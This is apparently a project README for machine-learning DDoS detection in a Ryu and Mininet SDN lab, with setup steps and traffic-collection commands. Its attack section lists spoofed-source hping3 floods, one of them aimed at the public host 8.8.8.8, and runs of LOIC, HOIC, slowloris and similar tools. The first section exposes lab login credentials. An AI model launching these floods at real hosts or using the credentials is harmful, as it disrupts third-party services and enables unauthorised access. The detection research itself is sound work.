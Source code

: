 # I. Server Administration Information:
## VMware:
Product: VMware® Workstation 15 Pro  
Version: 15.5.0 build-14665864  
## Ryu Controller:
OS: Ubuntu 19.10 eoan  
IP: 192.168.0.104  
User: ryu  
Pass: ryu  
## Mininet:		
Distributor ID:	Ubuntu
Description: Ubuntu 18.04.6 LTS
Release: 18.04
Codename: bionic
IP:192.168.0.100
User: Will
Pass: CuLy@944


# II. Build SDN System
## 1. Ryu Controller
**Step 1: Goto my project**
```sh
cd my_project/controller/
```
**Step 2: Start Controller SDN**  
In this directory, I have created multiple Controller files, each corresponding to different machine learning algorithms used for testing in various scenarios of detecting and mitigating DDoS attacks. Specifically:
- DT_controller-detect.py: this file uses a Decision Tree algorithm so the system can detect DDoS attacks.
- KNN_controller-detech.py: uses a K-Nearest Neighbors algorithm. algorithm so the system can detect DDoS attacks.
- RF_controller.py: uses a Randowm Forest algorithm. algorithm so the system can detect DDoS attacks.
- DTree_Controller.py: this file uses a Decision Tree algorithm so the system can detect and mitigate DDoS attacks.
- KNN_Controller.py: uses a K-Nearest Neighbors algorithm so the system can detect and mitigate DDoS attacks.

Controller normal (The controller operates normally and does not have an integrated attack detection and mitigation module):
```sh
ryu-manager ryu.app.simple_switch_13,ryu.app.ofctl_rest flowmanager/flowmanager.py    --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080"
```
Controller detect:
```sh
DTree: ryu-manager DT_controller-detect.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_controller-detech.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
Controller detect & mitigation:
```sh
DTree: ryu-manager DTree_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
**Step 3: Controller management site**
```sh
http://192.168.0.104:8080/home/index.html
```
		
## 2. Mininet
**Step 1: Goto my project**
```sh
cd project/mininet
```
**Step 2: Start sflow service**
```sh
sudo ./sflow/sflow-rt/start.sh
```
After starting sflow, you should open another command line on linux to initialize mininet

**Step 3: Start mininet**  
Within the scope of my experiment, I created 2 mininet files in python3 language. Furthermore, I use the command in linux to create mininet virtual devices, details are as below:
- Topology 1: 12 hosts and 6 switches
```sh
sudo mn --custom topology.py,sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo mytopo
```
- Topology 2: 6 hosts and 3 switches
```sh
sudo mn --custom topology2.py,sflow/sflow-rt/extras/sflow.py --controller=remote,ip=192.168.0.104:6653 --topo mytopo
```
- Topology commandline: Linux commandline
```sh
sudo mn -c && sudo mn --custom sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo tree,depth=2,fanout=2
```
Here, you only use 1 of 3 topologies to test the system.

**Step 4: Make Mininet access Internet**  
I wrote a simple script to help mininet's virtualized devices access directly to the Internet. I use it to experiment with hosts inside the system attacking the Internet.
```sh
source /home/will/project/mininet/route-topology2.mn
```
Step 5: SDN infrastructure monitoring website
```sh
http://192.168.0.100:8008/html/index.html#status
http://192.168.0.100:8008/app/mininet-dashboard/html/index.html#charts
```


# III. Attack DDOS
Start the web on any host, here I use host 1 as the web server
```sh
python -m SimpleHTTPServer 80
```
Test Web Server: using another host to request to host 1.
```sh
wget http://10.0.0.1
```
Attack DDOS
```sh
Icmp flood command: h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood h1
SYN flood command: 	h6 hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood h1
Udp flood command:  h6 hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood h1
attack Controller:  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.104
attack Public	 :  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 8.8.8.8
```
Other tool attack: I use some cehv11 ddos attack tools
```sh
cd project/tool-dos/tool-attack/
wine Hoic.exe
mono LOIC.exe
python pyloris.py
python3 slowloris.py 10.0.0.1 -p 80
python torhammer.py -t 10.0.0.1
python torhammer.py -t 10.0.0.1 -p 80
python3 saphyra http://10.0.0.1/ (full CPU)
python3 RDDoS_Tool.py => select 2 => IP - port
```
In addition to using the CIC dataset, during the process of experimenting with detecting DDoS attacks, I collected and added to the dataset.  
Normal Dataset:
```sh
Controller: ryu-manager collect_benign_trafic.py
Mininet: sudo python3 generate_benign_trafic.py
```
DDoS Dataset:
```sh
Controller: ryu-manager collect_ddos_trafic.py
Mininet: sudo python3 generate_ddos_trafic.py
```
